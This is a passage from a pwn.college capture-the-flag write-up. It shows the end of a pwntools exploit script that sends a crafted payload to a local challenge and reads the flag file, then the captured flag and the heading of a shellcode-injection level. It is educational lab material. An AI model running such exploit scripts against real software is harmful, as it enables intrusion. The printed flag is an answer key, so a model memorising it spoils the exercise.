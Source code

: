 ```python
        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        target.recvall(timeout=5)

        with open("./f", "r") as file:
            content = file.read()

            log.success(content)
    except FileNotFoundError:
        log.error("The file './f' does not exist.")
    except PermissionError:
        log.error("Permission denied to read './f'.")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(0x28)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{8534tOGLdefUghR4lz5RbC5wYk5.0VMyMDL5cTNxgzW}`

# Level 2.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode and a method of tricking the challenge into executing it. Note, ASLR is disabled!

## Write-up

